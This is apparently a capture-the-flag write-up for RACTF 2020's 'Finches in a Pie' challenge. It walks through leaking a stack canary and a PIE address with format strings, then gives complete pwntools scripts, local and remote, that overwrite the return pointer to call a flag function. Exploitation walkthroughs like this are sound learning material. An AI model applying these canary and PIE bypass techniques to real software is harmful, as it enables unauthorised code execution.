 # Finches in a Pie

This challenge is very similiar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link:
[Finches in a Stack](https://github.com/crypt0n1te/write-ups/blob/master/ractf-2020/rev-pwn/finches_in_a_stack.md)

## Protections
First, let's check the protections that this binary has using checksec:
```
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes

* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

* ASLR: This will randomize addresses such as libc ones, such as system. This won't affect us however

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

## Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

## Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address
Lets load up gdb and have a look at the functions:
```
0x00001209  flag
```
So now we have the offset of `flag`. Let's run it with a breakpoint at say_hi (as that's where input is taken):
```
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```
Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:
```
gdb-peda$ 
0x56559000!
```
Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```
And using our offset from before
> 0x00001209
We will take the offset away from the flag address, to find the base:
```
gdb-peda$ p/x 0x56556209 - 0x1209
$2 = 0x56555000
```
So that's our base address, now we do:
```
gdb-peda$ p/x 0x56559000 - 0x56555000
$3 = 0x4000
```
To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

## Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:
```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209	# Base + Flag offset

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

## Transferring to remote

Transferring to remote is very simple once again:
```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```
Let's now run it:
```
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$ 
```
Challenge done!
